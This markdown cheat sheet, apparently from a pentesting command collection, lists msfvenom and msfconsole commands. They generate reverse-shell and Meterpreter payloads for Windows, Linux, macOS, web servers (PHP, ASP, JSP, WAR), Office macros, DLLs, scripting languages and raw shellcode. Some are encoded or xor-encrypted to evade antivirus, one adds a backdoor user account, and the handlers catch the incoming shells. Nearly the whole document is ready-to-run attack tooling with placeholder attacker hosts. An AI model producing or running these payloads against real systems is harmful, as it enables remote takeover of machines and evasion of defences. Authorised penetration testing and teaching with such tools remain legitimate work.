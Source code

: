 # msfvenom

% msfvenom, reverse shell

#plateform/linux #target/local #cat/ATTACK/REVERSE_SHELL 

## msfvenom payloads list
```
msfvenom --list payloads
```

## msfvenom - payload windows x86 meterpeter unstagged
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_ip> LPORT=<local_port> -f exe > shell.exe
```

## Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell.elf
```

## Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > shell.exe
```

## Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<local> -f exe > shell.exe
```

## Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<local> -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

## Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f macho > shell.macho
```

## meterpreter x64 - https - non staged
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<ip> LPORT=<port|443> -f exe -o /var/www/html/msfnonstaged.exe
```

## meterpreter - https - staged
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> -f exe -o /var/www/html/msfstaged.exe
```

## Web Payloads

## PHP Meterpreter Reverse TCP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw > shell.php
```

## ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp > shell.asp
```

## JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw > shell.jsp
```

## WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war > shell.war
```

## VBA 32bits
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> EXITFUNC=thread -f vbapplication
```

## DLL
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> -f dll -o <dll|output.dll>
```

# Scripting Payloads

## Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<ip> LPORT=<port> -f raw > shell.py
```

## Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -f raw > shell.sh
```

## Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -f raw > shell.pl
```

## Powershell
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> EXITFUNC=thread -f ps1
```

## Csharp - xor encrypted
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> --encrypt xor --encrypt-key <key> -f csharp
```

# msfvenom Shellcode

## Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

## Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

## Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

## MCreate User
```
msfvenom -p windows/adduser USER=hacker PASS='Hacker123$' -f exe > adduser.exe
```

## Metasploit Handler tcp 32bits staged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port>; set payload windows/meterpreter/reverse_tcp; exploit"
```

## Metasploit Handler https 32bits staged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/meterpreter/reverse_https; set EXITFUNC thread; exploit
```

## Metasploit Handler https 64bits staged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter/reverse_https; exploit"
```

## Metasploit - Handler https 64bits unstaged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter_reverse_https; exploit"
```

## Metasploit - Handler https 64bits stagged - encoded xor
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set EnableStageEncoding true; set StageEncoder <encoder|x64/xor_dynamic>; exploit"
```